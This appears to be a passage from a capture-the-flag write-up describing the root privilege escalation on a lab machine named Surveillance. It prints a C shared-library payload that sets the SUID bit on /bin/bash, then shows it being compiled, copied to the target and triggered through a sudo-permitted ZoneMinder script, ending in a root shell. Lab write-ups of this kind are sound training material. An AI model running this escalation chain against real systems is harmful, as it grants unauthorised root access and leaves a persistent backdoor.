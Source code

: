 ```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
    void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("chmod u+s /bin/bash");
}
```

Compile and transfer to the target machine.

```shell
labadmin@labmachine:~/surveillance$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 |     setgid(0);
      |     ^~~~~~
shell.c:7:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 |     setuid(0);
      |     ^~~~~~

labadmin@labmachine:~/surveillance$ scp -i ./id_ed25519 shell.so zoneminder@10.10.11.245:/tmp/
shell.so                                                                              100%   14KB  34.8KB/s   00:00
```

Once it is executed it will add the `SUID` bit to `/bin/bash`, that will enable a privilege escalation to root.

```shell
zoneminder@surveillance:/tmp$ sudo zmdc.pl
No command given
Usage:
    zmdc.pl {command} [daemon [options]]

Options:
    {command} - One of 'startup|shutdown|status|check|logrot' or
    'start|stop|restart|reload|version'. [daemon [options]] - Daemon name
    and options, required for second group of commands

zoneminder@surveillance:/tmp$ sudo zmdc.pl startup zmdc
Starting server
zoneminder@surveillance:/tmp$
```

Confirming the changed permissions of `/bin/bash` and we see that it has SUID permissions

```shell
zoneminder@surveillance:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```

Finally we execute a `SUID` shell giving us root and we find the flag under /root

```shell
zoneminder@surveillance:/tmp$ /bin/bash -p
bash-5.1# id
uid=1001(zoneminder) gid=1001(zoneminder) euid=0(root) groups=1001(zoneminder)
bash-5.1# cat /root/root.txt
[OMITTED]
bash-5.1#
```

